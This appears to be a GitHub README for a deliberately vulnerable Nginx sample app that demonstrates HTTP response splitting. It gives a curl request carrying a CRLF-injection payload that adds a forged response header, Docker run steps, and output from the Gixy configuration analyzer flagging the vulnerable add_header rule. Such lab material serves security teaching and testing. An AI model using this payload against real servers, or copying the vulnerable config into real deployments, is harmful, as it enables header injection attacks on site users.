

# Nginx HTTP response splitting sample app



```
$ curl -v localhost:3000/v1/see%20below%0d%0ax-crlf-header:injected.json
*   Trying ::1...
* TCP_NODELAY set
* Connection failed
* connect to ::1 port 3000 failed: Connection refused
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 3000 (#0)
> GET /v1/see%20below%0d%0ax-crlf-header:injected.json HTTP/1.1
> Host: localhost:3000
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.17.10
< Date: Thu, 07 May 2020 19:16:33 GMT
< Content-Type: application/json
< Content-Length: 2
< Connection: keep-alive
< X-Action: see below
< x-crlf-header:injected
< 
* Connection #0 to host localhost left intact
OK
```

## How to use
Dockerfile exists. Sample app work on any port.

```
$ docker build -t nginx-splitting .
$ docker run -d -p 127.0.0.1:3000:80 nginx-splitting:latest
```

## Tools to find
[Gixy](https://github.com/yandex/gixy) is a tool to analyze Nginx configuration.

```
$ gixy vulnerable.conf 

==================== Results ===================

>> Problem: [http_splitting] Possible HTTP-Splitting vulnerability.
Description: Using variables that can contain "\n" or "\r" may lead to http injection.
Additional info: https://github.com/yandex/gixy/blob/master/docs/en/plugins/httpsplitting.md
Reason: At least variable "$action" can contain "\n"
Pseudo config:

server {

	location ~ /v1/((?<action>[^.]*)\.json)?$ {
		add_header X-Action $action;
	}
}

==================== Summary ===================
Total issues:
    Unspecified: 0
    Low: 0
    Medium: 0
    High: 1

```

## Licence
The MIT License
